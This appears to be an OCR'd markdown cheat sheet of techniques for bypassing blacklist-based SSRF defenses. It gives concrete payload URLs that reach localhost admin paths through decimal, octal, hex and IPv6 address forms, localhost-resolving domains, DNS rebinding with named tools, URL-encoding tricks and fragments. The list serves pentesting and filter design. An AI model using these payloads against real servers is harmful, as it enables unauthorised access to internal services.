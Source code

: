 - **Bypassing common SSRF defenses**

  - **Bypassing blacklist-based filters**
    
    - **Alternative IP representations**
      - **Decimal IP conversion**
        - Convert 127.0.0.1 to decimal: 2130706433
        - Example: `http://2130706433/admin`
      - **Octal format**
        - Convert 127.0.0.1 to octal: 017700000001
        - Example: `http://017700000001/admin`
      - **Hexadecimal format**
        - Convert 127.0.0.1 to hex: 0x7f000001
        - Example: `http://0x7f000001/admin`
      - **Mixed encoding**
        - Example: `http://127.0.0.0x1/admin`
        - Example: `http://0177.0.0.1/admin`
      - **IPv6 encoding**
        - Localhost in IPv6: ::1
        - Example: `http://[::1]/admin`
        - Example: `http://[0:0:0:0:0:0:0:1]/admin`
      - **IPv6/IPv4 mixed encoding**
        - Example: `http://[::ffff:127.0.0.1]/admin`
        - Example: `http://[::ffff:7f00:1]/admin`
    
    - **DNS tricks**
      - **Domain -> localhost resolution**
        - Register/use domains that resolve to 127.0.0.1
        - Example: `http://localtest.me/admin` (resolves to 127.0.0.1)
        - Example: `http://customer1.app.localhost.my.company.127.0.0.1.nip.io`
        - Example: `http://spoofed.burpcollaborator.net` (if set to resolve to 127.0.0.1)
      - **DNS rebinding attacks**
        - Configure a DNS server to respond differently on sequential requests
        - First request: returns a safe IP that passes security checks
        - Subsequent requests: returns an internal IP
        - Tools: Singularity, whonow, rbndr.us
        - Example: `http://attacker-controlled-domain.com` (initially resolves to safe IP, then to 127.0.0.1)
    
    - **URL encoding tricks**
      - **Single encoding**
        - Encode characters to bypass simple string matching
        - Example: `http://127.0.0.1` -> `http://127%2E0%2E0%2E1`
        - Example: `http://localhost` -> `http://lo%63alhost`
      - **Double encoding**
        - Apply URL encoding twice
        - Example: `http://127.0.0.1` -> `http://127%252E0%252E0%252E1`
      - **Mixed case encoding**
        - Example: `http://LoCaLhOsT/admin`
        - Example: `http://127.0.0.1` -> `http://127%2e0%2E0%2e1`
    
    - **Using URL fragments**
      - Add an allowed domain as a fragment
      - Example: `http://127.0.0.1#example.com`
      - Example: `http://127.0.0.1#.example.com`
    
